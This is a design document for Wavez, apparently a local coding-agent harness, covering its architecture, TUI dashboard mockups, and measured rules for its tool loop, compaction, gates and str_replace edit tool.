


# Wavez design

High-level design: what each piece does, requirements per feature, decisions as y-statements, and milestones. Not an implementation plan. Research and prior art live in `_ai_/`, especially [`_ai_/research/2026-08-design-proposal.md`](_ai_/research/2026-08-design-proposal.md) and [`_ai_/research/2026-08-synthesis.md`](_ai_/research/2026-08-synthesis.md), which this supersedes. [`_ai_/README.md`](_ai_/README.md) is the index.

## Starting a session

Work comes off [Next](#next), top first, under the rules in
[Standing objectives](#standing-objectives). Say what you are taking and what
is in the way before starting, and ask rather than guess when a choice is the
owner's to make.

Mechanics live in the files that own them and are not repeated here:
[CONTRIBUTING.md](CONTRIBUTING.md) for tasks, the git workflow, and how a
release is cut and verified, [AGENTS.md](AGENTS.md) for conventions and the
five CI jobs a green `mise run ci` does not cover,
[docs/troubleshooting.md](docs/troubleshooting.md) for toolchain failures, and
[AGENTS.local.md](AGENTS.local.md) for traps specific to this codebase. What
is worth saying once, here:

- The repository is a colocated jj checkout. Use `jj`, not `git`, for anything
  that writes. A detached git HEAD is normal and is not something to fix.
  `jj abandon <change>+` abandons every descendant, not the one just made, and
  `jj op restore` is how that gets undone
- Commit per lane with a subject that says what changed and why, so a lane that
  turns out wrong can be dropped on its own. One lane is the change, its test,
  and the doc update that describes it, and nothing else; a measurement belongs
  in the doc rather than in a comment. Commit as its own command, never piped or
  chained, since a pipe reports its own exit status and a failing hook then
  reads as success
- `jj` does not run hk's git hooks, so a commit made here can carry what a hook
  would have fixed. Run `mise exec -- hk check --all` before pushing, and when a
  hook rewrites a file, squash the fix into the change that broke it rather than
  leaving a repair commit behind
- Push at a milestone, never mid-lane: a `feat:` or `fix:` landing on `main`
  cuts a release, so `main` has to be green before the push rather than after
- Green means all five CI jobs and a full `go test ./...`, run on a machine
  quiet enough for the result to mean anything. A test that fails only under a
  parallel run is evidence about something, and which thing is a question to
  answer rather than a reason to rerun it
- Reach for wavez's own tools on this repository before the shell, because every
  gap that shows up in daily use is an item on Next: `search` with `mode=literal`
  for an exact identifier, `rename`, `delete`, and `move` for the edits they
  cover, and the gates rather than a hand-run `go test`. What the shell is still
  needed for is the finding
- A TUI change is not done until it has been driven in a PTY. The defects worth
  fixing have consistently been invisible in review and obvious within seconds
  against a real model, with the unit tests green throughout.
  `_ai_/bench/dogfood.md` records those runs and is where a new one goes
- Fix the cause and prove which cause it is. Where that is not possible, say so
  and leave the item open rather than closing it on a plausible story

## Problem

Coding agents spend most of their tokens and wall-clock on work that does not need a model: deciding which tests to run, re-reading files that did not change, emitting whole edited files for a rename, carrying a single conversation that grows until compaction throws away what mattered. On a 16 GB M2 Pro with a local model, that waste also shows up as RAM pressure and slow tokens/sec.

The one-user constraint is the lever. There is no fleet, no policy hierarchy, no untrusted teammate. Anything whose only job is to serve more than one person or trust level gets cut, and the savings go into the deterministic layer around the model.

## Thesis

Do the predictable parts deterministically, keep the model for judgment, and keep the model's context small and cache-stable. Two subsystems carry the innovation budget:

1. Routines and Gates: change-triggered, lock-aware, coverage-selected checks with workflow-engine semantics
2. Modifiers: refactor engines exposed as tools so the model specifies shape instead of text

Everything else copies a reference implementation.

## Architecture



| Component | Responsibility |
|---|---|
| Local API | JSON over a unix socket. Every client (TUI, `-p`, phone) uses the same events and commands, which is what makes M4 mobile a client and not a rewrite |
| Thread manager | One thread per work stream: its own history, compaction state, and directory set |
| Scheduler and locks | Directory-subtree leases (from `_ai_/notes/agent-lock-coordination.md`), edit and execute phases, memory-aware admission so the local model and a test run do not fight for RAM |
| Agent loop | Streaming tool-use loop, bounded retries, loop detection, permission gate |
| Model router | Task shape decides local vs hosted. Explicit override per turn |
| Tools and Modifiers | Read, edit, shell, search, question, browser (later), plus refactor operations backed by LSP and CLIs |
| Code intelligence | One SQLite store per project: symbols, edges, FTS, vectors, coverage, contracts. Fed by tree-sitter, `codegraph`, coverage adapters, and a local embedder. One `search` tool and one `context` bundle |
| Routine runner and Gates | pkl-defined DAGs triggered by change events, coverage-selected tests, output trimming |
| Project state | Gate log, coverage map, ledger, context manifests, diff anchors, recordings. Survives sessions |

Sessions are disposable, project state is not. A new thread reads the last ledger entries and current VCS state, a few hundred tokens, and follows anchors back to old turns only on demand.

## A turn, end to end



## Screens

Wavez is a dashboard over threads, the way gh-repo-dashboard is a dashboard over repos. It is not a multiplexer: herdr owns panes, tmux owns terminals, Wavez owns structured events. Everything on screen is data the daemon already has, so peeking, answering, and switching cost nothing.

Layout: persistent multi-panel (lazygit shape). Panels keep fixed positions. `Tab` and `Shift+Tab` cycle focus, the focused panel gets a bold title and bright border, unfocused panels dim (works under `NO_COLOR`). Footer is a priority-ordered hint list that drops the lowest-priority hints first as the terminal narrows, copied from gh-repo-dashboard. `?` is help everywhere, `:` is the palette everywhere, `Esc` always goes up one level and never quits. Minimum size 80x24. Flat Bubble Tea model with per-view files.

State glyphs carry meaning without color and have ASCII fallbacks: `●` working, `◐` gate running (`*`), `▲` needs input (`!`), `○` idle or waiting on a lock, `✖` failed (`x`), `✔` done (`ok`).

### Launch and scope

Scope resolves like gh-repo-dashboard: CLI args, then config `scan_paths`, then the enclosing VCS root, then cwd. Inside a repo, Home shows that repo's threads. Above several repos, Home shows a fleet grouped by directory. `w` widens or narrows the scope without restarting, and the palette can jump to any thread in the fleet from either scope. `wavez -p "…"` skips the TUI. `wavez` with one active thread in scope opens Home with it selected, never straight into it, so the list stays the anchor.

### Home (M1 single repo, M2 fleet)

```
┌ wavez · ~/dev · 4 threads · ▲ 1 needs input · mem 9.8/16G ───────────┐
│   thread              step                       age    spend      │
│ calcipy/                                                            │
│ ● fix-lock-timeout    editing internal/lease.go   2m    $0.00       │
│ ▲ docs-pass           allow? rm -rf .testmondata  40s   $0.00       │
│ │  ▸ shell  rm -rf .testmondata      [y]es [n]o [a]lways            │
│ │  ▸ gate   tests(3) ✔   fmt ✔                                      │
│ │  ▸ agent  cleaning stale coverage data before the full run        │
│ wavez/                                                              │
│ ◐ add-jj-backend      gate test 4/7               1m    $0.12       │
│ ○ └ jj-op-log-undo    waiting lock internal/vcs   5m    $0.00       │
│ yak-shears/                                                         │
│ ✖ flaky-ci            go test ✖ 2 failed          12m   $0.31       │
└ [Enter]open [v]peek [i]nbox [n]ew [s]schedule [:]palette [?]help ────┘
```

- One row per thread: glyph, name, current step in words (what it is doing or waiting on), age since last event, spend. Sub-threads indent under their parent with `└`
- `v` expands the row inline (gh-repo-dashboard's expand) with the last three events. If the thread needs input, the prompt row is live and `y`, `n`, `a`, or typed text answers it without opening the thread
- Header badges aggregate the fleet: thread count, how many need input, memory headroom. A thread flipping to `▲` raises a footer toast and, on mobile, a push
- Sort defaults to needs-input first, then most recent. `/` filters by name or directory
- `n` opens a new-thread form: prompt, directory set (defaults to the scope), model override, parent thread (optional)

### Thread view (M1)

```
┌ calcipy · fix-lock-timeout · gemma4-12b 3.1k/32k · $0.00 · ▲1 ───────┐
│ ledger  TTL made configurable in lease.go, gates green, 2 turns     │
│ ▸ user   make the lease TTL configurable                             │
│ ▸ modify rename lease.DefaultTTL → lease.TTL (3 files)               │
│ ▸ edit   internal/lease/lease.go  +6 −2                             │
│ ▸ gate   tests(3 selected) ✔ 1.2s   fmt ✔   lint ✔                  │
│ ▸ shell  rm -rf .testmondata        allow? [y]es [n]o [a]lways      │
├ diff ───────────────────────────────────────────────────────────────┤
│ internal/lease/lease.go                                             │
│ -const DefaultTTL = 30 * time.Minute                                │
│ +func TTL(cfg Config) time.Duration { … }                          │
├─────────────────────────────────────────────────────────────────────┤
│ > _                                                                 │
└ [Enter]send [Tab]panel [a]sk-line [f]ork []]next [u]ndo [?]help ────┘
```

- Header: directory, thread, active model with context used against its window, spend, and a badge for other threads needing input (`i` jumps to the inbox)
- The ledger row sits above the transcript: one line of what this thread has done, derived from the gate log and change set. Compacted history is folded under it, `H` unfolds
- Transcript rows are typed (user, agent, tool, modifier, gate, permission), collapsible with `Enter`. A permission row takes focus and answers with `y`, `n`, or `a`
- Focus decides whether a letter is a verb or a character: with the input panel focused every key goes to the message, and the screen's verbs work from the other panels. Keying that off the input's contents instead ate the first letter of every message, and leaving the input unfocused entirely meant it accepted nothing at all
- `[` and `]` move to the previous or next thread in scope without going through Home. `Esc` returns to Home with this thread selected
- `u` undoes the thread: it reports what the working copy would lose against the checkpoint captured before the thread's first turn and restores only after a confirmation, since destroying uncommitted work without asking is worse than leaving it. `wavez -undo <operation id>` does the same from the shell, where typing the flag is the confirmation
- `f` forks a new thread for trying a second approach without losing the first. The fork inherits the parent's change set and none of its transcript: 97.6% of a real transcript measured as re-derivable from the tree and the tools, so carrying the prose buys staleness rather than context, while the list of files already touched is exactly what cannot be re-derived
- Diff pane shows the thread's change set as real hunks, fetched on demand rather than streamed, because a diff is unbounded in a way an event stream should not be. Wavez's own `.wavez/` state is filtered out: its gate log changes on every run and is not work the thread did. `d` jumps to the pane, `a` on a diff line opens Ask-a-line anchored at that line, and a removed line anchors to its file since it has no line in the tree as it now stands
- `/` searches the transcript, `n`/`N` step matches, hits highlight in reverse video. Below 100 columns the diff pane stacks under the transcript
- Agent prose is typed by what the turn did, so what must be read is told apart from what is good to know. A turn that ends a run without a tool call is an `answer` and renders in full, emphasized, and unfolded; a turn that precedes tool calls is a `note` and renders muted and folded to one line. The harness decides from turn shape, never from the model saying which it is
- History is browsable by kind as well as by time: a filter that keeps one row type (edits, shells, gates, permissions, answers), fuzzy matching across rows, and a per-thread "what was done" view grouped by operation type, so auditing a run reads by kind rather than by scrolling
- Identifiers link. PR numbers, issue keys, and ticket ids match a pattern table (per repo in `.wavez.pkl`, per laptop in the user config) and render as OSC 8 hyperlinks in the transcript and as markdown links in `-p` output
- Progress is for the human, not the model. A progress line per thread shows phase or item n of m, elapsed, and a wall-clock estimate that adapts as turns and gate rounds land, from this thread's own turn durations first and the project's history for the same shape of work second. The model never reads it (Decisions: no model-authored task list), and its inputs are the same events the ledger and the schedule lanes already carry

### Inbox (M1)

```
┌ inbox · 2 waiting ──────────────────────────────────────────────────┐
│ ▲ calcipy/docs-pass     shell   rm -rf .testmondata   [y] [n] [a]   │
│ ▲ wavez/add-jj-backend  ask     colocate or pure jj?  > _           │
└ [Enter]answer [o]pen thread [Esc]back ──────────────────────────────┘
```

- Every permission prompt and question across the fleet, oldest first. Answering here is the same as answering in the thread
- Sits behind `i` from any screen and is the default landing view for the mobile client
- A thread going idle is a notification too, not only a question: done, `verify_failed`, and a tripped bound raise the same footer toast `▲` does and, on mobile, a push. This is the thread-finished hook the Decisions section names as the one hook with a real job
- Input queues while work continues. A thread that blocks on a question parks its work (jj has already snapshotted it as a side effect of the last command) and the scheduler admits the next thread that is not blocked, so the inbox lists what is parked and on what, and only when every thread is blocked on input does the fleet stand still. Schedule lanes show parked segments distinctly from waiting-on-lock

### Schedule (M2)

```
┌ schedule · phase: edit · mem 9.8/16G · local model loaded ──────────┐
│ fix-lock-timeout  ████████░░░░░░░░ edit                              │
│ add-jj-backend    ████░░◐◐◐◐░░░░░ gate 4/7                          │
│ jj-op-log-undo    ○○○○○○○○○○○○○○○ lock internal/vcs ← add-jj-backend│
│ docs-pass         ██▲▲▲▲▲▲▲▲▲▲▲▲▲ input 40s                          │
├ routine · gate/test · add-jj-backend ───────────────────────────────┤
│ changed(2) → select(7) → run ◐ 4/7 → trim                           │
│            → fmt ✔      → lint ✔                                    │
└ [Enter]open [l]ocks [x]kill [Esc]back [?]help ──────────────────────┘
```

- One lane per thread, recent history left to right, glyph runs show what each spent its time on. A lock wait names the holder
- The selected thread's active routine renders one line per branch. A DAG with more branches than rows drills in with `Enter` to a tree view (one node per line, `├──` guides)
- Lease list behind `l`: subtree, holder, state (active, committed, expired), and who waits behind it. `x` kills the selected thread's turn. Footer hints drop back and help before open, since `Esc` and `?` work everywhere

### Diagnostics (M1 strip, M2 panel)

Wavez is a dashboard over agents, and a dashboard shows the machine, not just the transcript. A one-line strip is always in the header (model, context used, spend, memory headroom). `D` opens the full panel from any screen.

```
┌ diagnostics ────────────────────────────────────────────────────────┐
│ mem   9.8/16G  ▂▃▅▆▆▅▅▆  model 5.9G resident  headroom 3.1G          │
│ cpu   41%      ▁▂▄▆█▆▄▂  daemon 3%  tui 1%  gates 37%                │
│ local qwen3:8b loaded  ctx 3.1k/8k  18.2 tok/s  prefix hit 96%       │
│ hosted $0.43 today  12 calls  cache read 71%  p50 4.1s  last 26s     │
│ gates queue 2  running test(calcipy) 4.1s  p50 1.9s  fail 1/38       │
│ leases 3 held  1 waiting (jj-op-log-undo on internal/vcs)            │
│ tools  142 calls  4 malformed (2.8%)  1 escalation                   │
│ events 97/s  transcript 41k rows  compaction 3 runs  saved 12.4k tok │
└ [Tab]section [Enter]drill [r]eset window [Esc]back ─────────────────┘
```

- Rows: memory (system, model resident, headroom against the admission threshold), CPU by process group, local model (loaded, context used against served window, current tok/s, prefix cache hit ratio), hosted (spend today, calls, cache read share, latency p50 and last), gates (queue depth, running, p50, failure ratio), leases (held, waiting, on what), tools (calls, malformed ratio, escalations), events and compaction (throughput, transcript rows, tokens saved)
- Sparklines carry the last few minutes. `Enter` on a row drills into per-thread numbers. `r` resets the window
- Every number is one the daemon already has for its own decisions (admission, router, scheduler), so the panel is a view, not new instrumentation. The same numbers back the benchmark harness
- A number with no source renders as a dash, never as zero, and the daemon names which ones those are (`Diagnostics.Unmeasured`) rather than leaving a client to infer it from a zero. A gauge that reads zero has been measured at zero. Today the dashes are hosted call count and latency, gate latency and the running gate, leases, escalations, and CPU for gates and the TUI: each waits on a subsystem that has not landed (the scheduler, the gate runner's own queue) or an instrument the loop does not keep (a per-tier call timer, a tier-change mark on the outcome). The TUI is another process the daemon cannot pick out of `ps`, and a gate's subprocesses are gone by the time a sample lands
- Decode speed and prefix reuse come from `llama-server`'s `timings` block on the last stream chunk, which the OpenAI-compatible client parses into `llm.Usage.Timings` beside the token counts. `cache_n` beside `prompt_n` is what makes prefix reuse measurable: `prompt_tokens_details.cached_tokens` alone says how many tokens were cached and not how many were not. Measured on a real turn through the daemon (qwen3:8b, thinking off): 28.2 tok/s decode and 99% prefix hit on the second request of a run, and 29.4 tok/s with 17 of 18 prompt tokens cached on a two-request probe of the same server. The number a hosted provider leaves nil stays a dash
- Memory is what `vm_stat` calls active, wired, and compressed. The model's resident set is the physical footprint of the `llama-server` process, read with `top -l 1 -pid`, because a GGUF mapped into Metal shows 16 MB in RSS while its footprint reads gigabytes. Reading it costs about half a second, so the daemon caches one machine reading for a second and every poller shares it
- Sparklines come from the daemon's own two-second sampler rather than from whenever a client polled, so a bar covers wall time. `r` clears the window and re-bases the rates. Model disk is the sum of what Ollama reports for every installed model and sits on the memory row, since both bound what the router may choose

### Controls

Vim-shaped, layered so the floor is discoverable and the ceiling is fast, in the shape gh-repo-dashboard already uses.

- L0, always in the footer: arrows, `Enter`, `Esc`, `q` at Home only, `?`
- The message composer is modal, and modal only: normal and insert modes with vim's motions, operators, and undo, `Esc` stepping insert to normal to inline to the transcript and never quitting, and `ctrl+f` expanding it to the whole frame for a long prompt. Focus decides whether a letter is a verb or a character, never mode, so `d` deletes in the composer and opens the diff pane from the transcript. Permission answers moved to the transcript panel with that change: `a` on an empty composer is vim's append, and answering from the input line would have granted allow-always to a shell command the moment someone started typing
- L1, vim motions everywhere a list or text is on screen: `j`/`k`, `h`/`l` (collapse and expand rows, or move between panels), `gg`/`G`, `Ctrl-d`/`Ctrl-u`, `/` with `n`/`N`, `:` for the palette
- L2, single-key verbs per screen shown in the footer by priority (Home: `v` peek, `n` new, `i` inbox, `s` schedule, `D` diagnostics; Thread: `a` ask-line, `d` diff, `f` fork, `[`/`]` threads; Schedule: `x` kill, `l` leases)
- L3, palette verbs and counts (`3]` jumps three threads, `:kill flaky-ci`, `:scope ..`)
- Footer hints drop lowest priority first as the terminal narrows, and every screen keeps `?` for the full map. Mouse works for click and scroll, never required. `Shift`-click leaves selection to the terminal

### Routines and Recordings panels (M2)

- Routines: from `.wavez.pkl`, with triggers, last run, duration sparkline. `r` runs, `e` edits in `$EDITOR`, `h` history
- Recordings: per thread. `p` replays and diffs, `t` promotes to a test, `x` discards

### Palette (`:`)

- Fuzzy over threads, directories, pending prompts, routines, and verbs (`new`, `pause`, `kill`, `fork`, `scope`). Scoped to the current repo by default, `:` twice for the fleet

## Features

### Chat loop (M1)

- Streaming tool-use loop with typed tools: read, edit, shell, grep, symbol lookup, question, and modifiers
- Bounded retries. A malformed tool call buys the one escalation an identical repeat buys, and no more. The rule before it ended the thread on the first one, citing 2026 measurements that malformed calls are mostly unrecoverable, and the fixed task set contradicted that here: qwen3:8b lost two of the four tasks to a single invalid-JSON emission, one of them on turn two, while completing the hardest task in the set on the same tier. Nothing ran, so the model has only to send the call again. The loop answers the unpaired tool_use with a critique naming the JSON, moves the next turn up a tier, and ends the thread on a second malformed call
- An identical repeated call is evidence the tier is stuck rather than grounds to end the thread. It fails that call, hands the model a short critique of why, and escalates to the next tier, which is the same rule the router already applies after one local failure. A repeat after escalating ends the thread
- A run that ends on a bound still gates whatever it changed. Changed files with no verification is the worst outcome available
- Spend is the bound meant to bind, and it only measures something once cached prompt tokens are priced as cached. Providers bill a cache hit at a fraction of a fresh one (Kimi at $0.19 per million against $0.67), and 92% of a deep turn's prompt is a cache hit, so billing the whole prompt at the input rate charged 2.7x and killed a run at turn 26 of 44 that finished every check for $0.58. The wall clock follows from the same reasoning: runs that pass every check span 45s to 501s, so a 180 s deadline was cutting off the slowest fifth of the work that would have succeeded and recording it as a failure
- A gate failure the run cannot act on is worse than no gate at all, and three shapes produced one. A deleted file stayed in the format and lint gates' file lists; a non-Go file named a Go package, so a change touching a pkl schema built a directory holding no Go files; and an absolute directory was still prefixed with `./`, resolving it against the root a second time. Four of sixteen replay lanes failed verification on these with every task check passing, and all four complete under the fix with every gate round passing first time. The general rule the three share: a gate examines what its own command can name, and a change set that spans languages or removes a file names less than the whole set
- A run stopped on a bound keeps its transcript, so the work it did is worth what it cost rather than being spent again. The event log cannot rebuild what the model was sent (it truncates tool inputs and stores assistant text as streamed chunks), so the model-visible history is written to a sidecar beside it and read back at open. That is what makes a ceiling stop a pause: the ceiling is a runaway guard on one unattended run rather than a budget for the task, so a resumed run gets a fresh one and reports what the whole thread has cost so far
- A tier pin is a cost decision as much as a capability one, and which way it goes depends on the task. The same `h13` run costs $0.578 pinned to deep and $0.045 on the default tier, both passing every check, because 33 of its 44 turns are retrieval and the strongest tier reads files no better. `h7` inverts it: 11 deep turns at $0.029 against 45 default turns at $0.087. Escalation already picks between them per failure, so pinning is worth it only where a task is known to be reasoning-bound
- The wall-clock bound covers the stream itself, not just the gaps between turns. A provider that accepts a request and then stops sending is the one case the turn-boundary and pre-tool-call checks both miss, and one did: a run stalled nine minutes against a 180 s bound. The stream gets the budget remaining rather than the deadline instant, since it blocks in real time while the run's clock may be injected
- An explicit tier override does not buy a second attempt at a failed tier. Routing consults prior failures before choosing, and an override skips that check, so a run pinned local against a failing provider retried until the turn bound: 200 turns in six seconds
- A run that has changed no file for fifteen turns is told to make the smallest edit that starts the task, at most twice. It is a nudge and not a bound, since a task can genuinely need reading first, and holding an editing tool is the whole test: a plan thread's registry has none, and every other thread was handed one because a change was wanted. The task-wording test that gates the fatal no-change rule is too narrow to gate this one, since it reads the first line's verb alone and let "Count the tool calls that failed" through as a question. Two dogfood runs spent their entire budget reading and left the tree untouched: one for 24 turns because compaction kept taking back what it read, and one for 60 turns mapping every consumer of a struct field it was adding a key beside. The existing no-change rule fires when a model claims it is done, which neither of them ever did
- A turn that describes work instead of doing it is failed the same way a tool call written as text is, because all three end having changed nothing they said they would. Two shapes show up on qwen3:8b: closing with an offer ("Would you like me to run the tests?") and closing with an announcement ("I'll start by running hk check"). Each draws one critique and escalates the next turn, and a repeat after escalating stops the run. Reporting either as `complete` puts the model's account of itself where a measurement belongs
- A gate that passed says so in one line, naming the gates that examined the change and telling the run not to re-run them. Silence was the earlier rule and it is not free: a run with no signal that the harness checked its edit checks the edit itself, and 20 of one run's 29 shell calls were hand-written `go build`, `go test`, `go vet`, and `gofmt` over changes the gates had already examined and passed. A gate that examined nothing still says nothing, because an abstention is not a pass
- Deterministic compaction runs once a request reaches three quarters of the context budget of the tier that turn routes to, and compacts only the turns appended since the last pass, appending the result to the prefix already taken. No message the model has seen changes, so the provider's cached prefix stays valid across a compaction, which is what the 5-7x mid-context edit cost measured on the local runtime buys
- The budget is the routed tier's, not always the fast tier's. Sizing every tier's compaction from the local window compacted a hosted run at 6k of a window in the hundreds of thousands: 15 compactions across 23 turns, every tool result older than four turns replaced by a reference, and the model spent the rest of the run reading its way back to what it had (14 of 19 reads were repeats, in shrinking windows over the same four files) before the deadline stopped it having made no edit. The balanced and deep tiers are sized by `router.HostedContextBudget`, the smallest window among the models they are pointed at, so compaction still fires before the smallest of them would refuse the request
- Once the gates pass, a model reads the task and the run's diff and answers whether the diff does what was asked. This is the one check for a change that is wrong rather than unverified, which coverage, the fail-to-pass gate, and mutation testing all provably miss, and it is judgment rather than a gate: an objection buys the model one more turn to fix it, and a second objection completes the run carrying the objection on the outcome and in the thread log instead of failing it. A review that cannot run (no diff, over the 60k-token budget, a model that will not answer to schema) reports as skipped, never as a pass. Routing is on diff size alone: file count escalates a *turn* because a multi-file task needs planning local cannot do, while a review reads one finished diff whose only cost is its length, and routing on file count sent an ordinary source-plus-test change hosted where a local-only project has no reviewer at all
- Measured on qwen3:8b through llama-server with a `json_schema` grammar, four diffs against the empty-state task (correct with an `if`, correct with a `switch`, the append-instead-of-replace error, and an unrelated edit), three samples each at temperature 0.01: 12 of 12 correct. On the first unrehearsed diff after that, a one-line doc comment added above a `var`, it objected that the comment sat below the declaration when it sat above. So the reviewer is useful and wrong often enough that an objection has to be a note rather than a verdict, which is the argument for completing the run and recording it
- The prompt is doing most of the work. An earlier wording that named the failure as a syntactic pattern ("keeps the old behavior alongside the new one") drew an objection to the *correct* diff 4 times in 5, with the model quoting the phrasing back; asking it instead to read the task as a list of requirements and check each one flipped it to 5 of 5 with nothing else changed
- Permission gate before anything destructive, defaulting to ask. Sandbox behind it
- A repeat read returns the content again, and keeping a repeated result out of the history is compaction's `DedupeToolReads`, where the model is never told no. The read tool used to answer a repeat with a reference instead, which reads as a saving and is not: measured across two dogfood runs it cut repeat-read output from 26.6 KB to 2.9 KB, and the model recovered every withheld file through the shell, four references followed by four `sed`, `cat`, and `awk` calls on the same file, 21 KB of shell output and 19 extra turns. A tool that withholds what a model asked for moves the cost, it does not remove it
- `str_replace` takes a list of replacements for one file, applied in order and all or nothing, because one call per replacement costs a turn each and turns are what a run spends its budget on. A pair that matches zero or several places fails the batch with its own position named and leaves the file untouched. The reported line range is one span over everything that moved, computed from the file's before and after, since a later edit shifts the numbers an earlier one would have reported
- A `read` naming a directory answers with its listing instead of an error, which is what the next call always was
- `read` and `list` each take several targets in one call, by comma or by a repeated JSON key. A model batches by writing `{"path":"a","path":"b"}`, which decoding resolves to the last one, so a call meaning two files quietly answered one: it was tried three times across two runs. An oversized `list` rolls up to a count per directory rather than naming the 200 paths that sort first, which on this repo are dot directories nobody asked about
- A `list` tool answers what the tree holds, because otherwise the model asks the shell: the first call of one run was `find . -type f -name "*.go" | head -50 && ls`, and four later calls hunted for a directory it could have listed. It walks recursively from a directory, filters on one glob (a bare `*.go` matches the file name at any depth, a pattern holding a slash matches the path), skips `.git`, `.jj`, and `node_modules`, and caps at 200 paths. It is read-only, so a plan thread gets it too
- Read numbers every line it returns, `N<tab>text`, because the number is what a `str_replace` anchor, a compiler error, and a stack trace are all stated in. Without it a model rebuilt the numbering through the shell: 14 of 40 shell calls on one run were `awk '{printf "%d\t%s\n", NR, $0}'`, `sed -n`, or `cat -n` over a file `read` had already returned. The prefix costs about five bytes a line and the shell recovery cost a turn each. The prefix leaking back in is a real hazard rather than a hypothetical, so `str_replace` names it when a numbered anchor misses and `write` refuses numbered content outright, which turns a silent corruption into a message
- `-p "…"` runs one prompt headless and prints the result

### Edits (M1)

Decode speed is the local bottleneck (qwen3:8b at ~18 tok/s), so the edit path that emits the fewest output tokens wins on latency, and the model's training exposure decides which format it gets right.

- M1 ships `str_replace` (old and new string, exact match with a fuzzy fallback on whitespace and indentation, uniqueness enforced) as the general edit tool for local and hosted models alike. Measured in a real tool loop on qwen3:8b (5 tasks, 20 runs): `str_replace` succeeded 2/10 by strict spec reading, hashline 1/10, at a third of the tokens (190 vs 605) and wall time (12.5 s vs 37.7 s). Every hashline failure was the model failing the `N#hh` anchor syntax, so its hash rejection never had a stale edit to catch. It stays a candidate for a stronger local model, not the default
- Two `str_replace` failure modes shape the tool: hallucinated indentation in `old_string` after a read (the fuzzy fallback normalizes leading whitespace), and non-unique matches when the task is itself about a repeated expression (the error returns line numbers of each match so the model can widen the anchor). A miss past the fuzzy fallback is a content mismatch, so the error names the one line the anchor got wrong, sent against source, rather than echoing the closest match. Echoing it showed the lines that already agreed and elided the line that did not, and a run on the fixed set guessed twice from that and died stagnant. An anchor no line of which matches gets the same report from the longest prefix of it that occurs in the file: a model that closed a JSON string with a typographic quote sent an anchor whose only fault was three trailing characters, and "not found" alone left it re-sending the same anchor until the run died
- A run that edits itself into a corner has no way out, and that costs whole runs rather than turns. One recorded `h7` lane spent 44 turns and reached its deadline after three shell attempts at `git checkout -- <file>` and `jj checkout -- <file>`, each refused by the guard, because reverting through version control is a write and `vcs` has no verb that writes. `undo` takes one path and restores it from bytes the run snapshotted before its own first edit, so it reaches version control not at all: the worst it can discard is work the same run made, and a file the run never touched is not something it can name. A file the run created is removed rather than emptied, which is why the snapshot records existence separately from content. It costs 57 preamble tokens, which is what raised the ceiling from 2,500 to 2,550
- A fourth is an anchor copied without the file's blank lines, which models drop when they retype a block. It is the single most common near-match shape recorded here: 48 of the 93 reports rendered as `source has: ` with nothing after them, because the anchor's first differing line faced a blank source line. `Replace` matches such an anchor by skipping blank source lines between the anchor's own lines and replacing the whole span it covered, shifting the replacement by the difference between the anchor's indentation and the source's, since position no longer pairs a replacement line with the line it faces. A blank line that still reaches a report names itself
- A pair whose two halves carry the same text is the largest single failure the tool records, 81 of 322, and 40 of those come from runs that only ever used the balanced tier, which rules out the fast tier's grammar. The error alone says only that the fields matched, so the tool separates the two mistakes behind it. Where the file already holds that text the call succeeds having changed nothing, because the state the caller asked for is the state that exists, and the batch path already agreed by dropping a no-op pair and applying the rest. Where the text is absent the anchor was never sent and that stays an error. Neither result suggests the wider work may be done, because one `h11` run was told to move on while its file would not parse
- `old_string` matching several identical sites cannot be answered by widening, and telling a model to widen anyway is asking the file for something it does not have: one `h3` lane renaming a symbol at four identical call sites died stagnant against that advice. `replace_all` is off unless asked for, so the default stays one occurrence, and the ambiguity refusal names it with the count beside the option of anchoring on surrounding text that differs. The lane completes now without ever sending `replace_all`, taking the second route on a message that finally offers one
- The matcher's tolerance is the formatter's freedom, and it was narrower than that. The format gate runs gofmt over every changed file as soon as an edit lands, so gofmt's column alignment rewrites interior whitespace while the fuzzy ladder normalised leading whitespace only: a model anchoring on what it just wrote misses against a file the harness re-spaced behind it. One line predicate now governs the whole ladder, comparing lines with runs of spaces and tabs collapsed. Every near-match report of this shape recorded here is a struct table, which is where gofmt has the most freedom
